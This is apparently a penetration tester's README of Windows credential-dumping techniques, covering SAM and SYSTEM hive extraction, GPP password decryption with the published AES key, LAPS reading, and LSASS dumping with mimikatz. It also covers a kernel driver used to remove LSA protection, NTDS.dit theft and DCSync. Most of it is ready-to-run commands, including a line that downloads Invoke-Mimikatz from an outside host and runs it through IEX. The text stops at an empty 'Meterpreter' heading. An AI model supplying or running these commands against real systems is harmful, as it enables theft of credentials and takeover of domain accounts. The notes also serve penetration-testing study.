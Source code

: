 **DUMPING THE SAM:**

In order to dump the SAM, which stores the NTLM hashes for the local users on the machine we must first obtain a copy of the SAM and SYSTEM. Although the SAM is stored here "c:\Windows\System32\config\sam"
we cannot copy it directly, since it forms part of a running process. Additionally the SYSTEM has an exclusive lock.

1st method(create a shadow volume of the local hard drive with vssadmin): 

```
1. wmic shadowcopy call create Volume='C:\'
2. vssadmin list shadows
3. copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\trike\Downloads\sam
4. copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\trike\Downloads\system
```

2nd Method(extracting the SAM and the SYSTEM from registry hives):

```
1. reg save HKLM\sam C:\users\trike\Downloads\sam
2. reg save HKLM\system C:\users\trike\Downloads\system
```
To dump the contents of the SAM, my preferred method(although there are others) is using impacket-secretsdump:

```
~# impacket-secretsdump -sam sam -system system local
```

**GROUP POLICY PREFERENCES(GPP):**

The passwords are encrypted using AES-256, however microsoft published this AES-256 key. As a solution, the MS14-025 security update removed the ability to create GPP containing passwords. Altough the ability
to create new GPP was removed, the existing GPP weren't deleted, so some of them may still exist in the wild.
Manual dump:

```
1. Get a copy of the password in base64, the GPP are stored in this SMB share: \\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\   additionally the GPP must be accessible to all domain users
2. echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000
```

Automated dump with [Get-GPPPassword](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py):

```
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

**LAPS(Local Administtrator Password Solution):**

LAPS offered a secure and scalable way of remotely managing the local administrator password for domain-joined computers.

Dumping it using a powershell script [LAPSToolKit](https://github.com/leoloobeek/LAPSToolkit):

```
PS C:\> Import-Module .\LAPSToolkit.ps1

PS C:\> Get-LAPSComputers  -> to list all computers that are set up with LAPS

PS C:\> Find-LAPSDelegatedGroups  -> list groups that can read LAPS

PS C:\> Get-LAPSComputers  -> if we are logged in as a user that can read LAPS, it will retrun us with a cleartext password for the "Administrator" account of a computer.
```
(All this information can be retrieved using SharpHound and viewed with BloodHound)

**LSASS(Local Security Authority Subsytem Service):**

Since Microsoft’s implementation of Kerberos makes use of single sign-on, password hashes must be stored somewhere in order to renew a TGT request. In current versions of Windows, these hashes are stored in the Local Security Authority Subsystem Service (LSASS) memory space.

However, since LSASS runs as SYSTEM, we need admin privileiges in order to access its memory space.

1st method(using mimikatz, the commands here are meant to be thrown froma mimikatz shell):

```
To dump credentials:
1. privilege::debug
2. sekurlsa::logonpasswords

To dump TGT and TGS:
1. sekurlsa::tickets
2. sekurlsa::tickets /export
3. kerberos::ptt ticket.kirbi
```
(If you want to be stealthier, you can use [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)).

2nd method(using [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)):

```
1. PS C:\Windows\system32> (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/Invoke-Mimikatz.ps1') | IEX
2. PS C:\Windows\system32> Invoke-Mimikatz -Command "`"sekurlsa::logonpasswords`""

(Alternatively, we can append this line: Invoke-Mimikatz -Command "sekurlsa::logonpasswords"  at the end of the Invoke-Mimikatz.ps1 script, so that when you use the IEX sekurlsa::logonpasswords gets automatically executed and you don't have to fight with double quotes and backticks).
```

3rd method(using [MiniDump.cs](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/Windows%20Credentials/MiniDump.cs)):

Using this method we will create a dump file, which is a snapshot of a given process.

```
C:\minidump.exe c:\windows\tasks\lsass.dmp
```
(Then you can parse this dump file with mimikatz from a computer with matching OS and architecture, as the computer where the dump file was created)

```
#From a mimikatz shell(note that this doesn't require debug privileges)
1. sekurlsa::minidump lsass.dmp
2. sekurlsa::logonpasswords
```

When the popularity of cached credential retrieving raised, Microsoft introduced 2 secuirty measures: LSA Protection and Windows Defender Credential Guard. The LSA protection added an additional process 
security layer, the Process Protected Light(PPL), which is placed on top of the highest integrity level. This means that SYSTEM level privileges aren't enough to dump the LSASS.

To solve this problem mimikatz relased the [mimidrv.sys](releases/tag/2.2.0-20220919)(go to releases and mimidrv.sys is located inside the .zip/.7z). To load this driver we must have this SeLoadDriverPrivilege additional privilege.

```
C:\Windows\system32> sc create mimidrv binPath= C:\inetpub\wwwroot\upload\mimidrv.sys type= kernel start= demand

C:\Windows\system32> sc start mimidrv

#From a mimikatz shell
1. !processprotect /process:lsass.exe /remove  -> Afterwards LSA is disabled, meaning that we can dump the LSASS using the method we best like
```

**NTDS:**

The NTDS.dit, is a database that is usually stored on the Domain Controllers. The NTDS.dit contains the NTLM hash for all the domain users, so it is a prime taget for an attacker. However, in order to be able to dump it you need to be Domain Admin or be local admin on the Domain Controller.

1st method(using vssadmin):

```
1. Create a shadow copy of the c:\ unit -> wmic shadowcopy call create Volume='C:\'     -> to list them -> vssadmin list shadows
2. Get a copy of the NTDS.dit -> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\ntds.dit
3. Get a copy of the SYSTEM -> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system c:\system    -> or -> reg save HKLM\SYSTEM c:\system
4. Download them to our machine and use: impacket-secretsdump -system system -ntds ntds LOCAL
```

2nd method(using impacket-secretsdump, it has various execution methods: smbexec(psexec), wmiexec(DCOM) and mmcexec(DCOM), all this execution methods are explained [here](https://github.com/trike33/PEN-300-Code-Snippets/tree/main/Windows%20Lateral%20Movement)):

```
1. impacket-secretsdump -dc-ip <domain_controller_ip> domain/username:password@target_name
```
(note that this last method will be more time consuming that the 1st method)

**DcSync:**

The main advantatge of this techique is that is less noisy than dumping the NTDS
The domain controller receiving a request for an update does not verify that the request came from a known domain controller, but only that the associated SID has appropriate privileges.

In a nutshell, to be able to perform DcSync we must: be a domain admin or make the DcSync from a computer that has domain replication permissions.

```
#From a mimikatz shell

1. lsadump::dcsync /user:Administrator

or

2. lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```

**Meterpreter:**
